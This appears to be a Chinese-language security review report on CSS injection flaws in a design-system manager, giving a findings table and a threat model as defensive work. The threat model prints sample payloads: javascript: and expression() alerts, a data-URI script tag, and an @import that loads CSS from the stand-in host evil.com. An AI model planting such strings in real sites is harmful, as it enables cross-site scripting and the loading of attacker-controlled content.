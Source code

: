 #### 關鍵發現

1. **CSS值缺少惡意內容檢測** - 可能允許javascript:等注入攻擊
2. **安全測試套件存在假陽性** - 測試案例未真正驗證安全防護
3. **缺少CSS變數名稱白名單驗證** - 可能允許任意CSS變數注入

#### 詳細安全問題

| 問題ID | 嚴重度 | 檔案:行數 | 描述 | 合規引用 | 修復狀態 |
|--------|--------|-----------|------|----------|----------|
| CSR-moda01-001 | ❌ Critical | `modaDesignSystemManager.js:125-145` | CSS變數值缺少惡意內容檢測 | OWASP ASVS V5.3.4 | ✅ 已修復 |
| CSR-moda01-002 | ❌ Critical | `modaDesignSystemManager.js:125-145` | applyCSSVariables()直接設置CSS變數，無安全過濾 | OWASP Top 10 A03 | ✅ 已修復 |
| CSR-moda01-003 | ⚠️ Major | `css-injection.test.js:20-50` | 安全測試存在假陽性 | Testing Standards | ✅ 已修復 |
| CSR-moda01-004 | ⚠️ Major | `modaDesignSystemManager.js:155-175` | validateTokens()僅檢查結構，未驗證內容安全 | Input Validation | ✅ 已修復 |

#### 威脅模型分析

**識別的攻擊向量**：

1. **CSS Injection via javascript: Protocol**
```javascript
// 攻擊範例
const maliciousTokens = {
  colors: {
    primary: {
      1: 'javascript:alert("XSS")', // 惡意注入
      2: 'expression(alert("XSS"))'  // IE expression注入
    }
  }
};
```

2. **URL-based Injection**
```javascript
// 攻擊範例  
const urlInjection = {
  colors: {
    primary: {
      1: 'url(javascript:alert(1))', // 惡意URL
      2: 'url("data:text/html,<script>alert(1)</script>")' // Data URI注入
    }
  }
};
```

3. **CSS Import Injection**
```javascript
// 攻擊範例
const importInjection = {
  typography: {
    fontFamily: '@import url("http://evil.com/malicious.css"); font-family'
  }
};
```
